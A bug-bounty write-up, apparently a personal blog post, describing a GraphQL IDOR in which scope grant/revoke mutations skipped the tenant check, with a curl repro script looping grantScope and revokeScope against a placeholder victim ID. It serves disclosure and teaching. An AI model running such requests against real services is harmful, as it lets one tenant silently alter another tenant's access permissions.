



# GraphQL IDOR — How a Missing Org Check Let Me Edit Another Tenant's Permissions

Sept 1, 2026 · Mohamed Adel Mesbah

**TL;DR:** A GraphQL mutation meant to grant or revoke a user's permission scopes trusted the caller-supplied `userId` without checking it belonged to the caller's own organization. Any free-tier account could add or remove scopes on a user in a completely different org — a straight-up tenant-isolation bypass, no special access needed.

## The feature

The app is multi-tenant: each organization has its own users, and org admins grant or revoke permission scopes through a GraphQL mutation:

```graphql
mutation SC($input: ScopeChangeInput!) {
  revokeScope(input: $input) { ... on User { id scopes } }
}
```

It takes a `userId` and a `scopeName`. Nothing in the request says which org the target belongs to — the server is supposed to work that out itself.



## First attempt: blocked (as expected)

Obvious first test: try it against my own account with a scope I don't have.

```
revokeScope(userId: <my own id>, scopeName: "organization:automation:ui:write")
→ {"errors":[{"message":"not authorized"}]}
```

Good — there's a check in there somewhere.

## The bypass

I made a second, throwaway free account in a completely different org, grabbed its `userId`, and sent the exact same mutation — just pointed at that account instead of my own:

```
revokeScope(userId: <other org's user id>, scopeName: "organization:users:read")
→ HTTP 200, returns the live record with the scope removed
```

That's the whole bug. The authorization check only runs when the target is in the caller's own org — cross-org, it just doesn't run at all.

**Minimal repro script** (loops both mutations over three scopes against `$VICTIM`; every call returns HTTP 200 and mutates or echoes B's scope array):

```bash
JWT_A="<A's idToken>"
VICTIM="507f1f77bcf86cd799439011"
for OP in revokeScope grantScope; do
  for SCOPE in organization:users:read organization:users:write organization:reports:read; do
    curl -s https://api.target.example/graphql -H "content-type: application/json" -H "Authorization: $JWT_A" \
      -d "{\"query\":\"mutation SC(\$input: ScopeChangeInput!){$OP(input:\$input){... on User {id scopes}}}\",\"variables\":{\"input\":{\"userId\":\"$VICTIM\",\"scopeName\":\"$SCOPE\"}}}"
    sleep 2
  done
done
```



## Confirming the write

A follow-up call against the same victim echoed the scope I'd just revoked, and a second scope removed on a later request stacked on top of the first — so this isn't a reflected no-op, it's a real, persisted write to another tenant's permissions.

I also tried the sibling `grantRole` / `revokeRole` mutations the same way — correctly denied in both directions. Same resolver family, same app, just one mutation pair missing the check everyone else has.



## Impact

- **Integrity:** an attacker can silently strip scopes a victim's users genuinely hold, removing their access with no audit trail on the victim's side.
- **Confidentiality (minor):** each response echoes the victim's current scope list.
- **No victim interaction needed** — just their `userId`, which the app hands back in places like analytics cookies.

## Takeaways

- When an ownership check exists for one direction (same-tenant), always test whether it's actually enforced for the cross-tenant case too — "there's a check" doesn't mean "there's the right check."
- Sibling mutations (grant/revoke pairs, read/write pairs) are a cheap way to find the one that's missing a gate: if three out of four behave one way, the fourth is worth a close look.
- A write-IDOR that echoes the mutated object back to you is easy to mistake for a no-op — always diff the before/after state, not just the status code.

**Severity:** HIGH · **Reward:** $$$



---

No target, client or program identifiers are included in this writeup. Hostnames, user IDs and tokens shown here are placeholders.
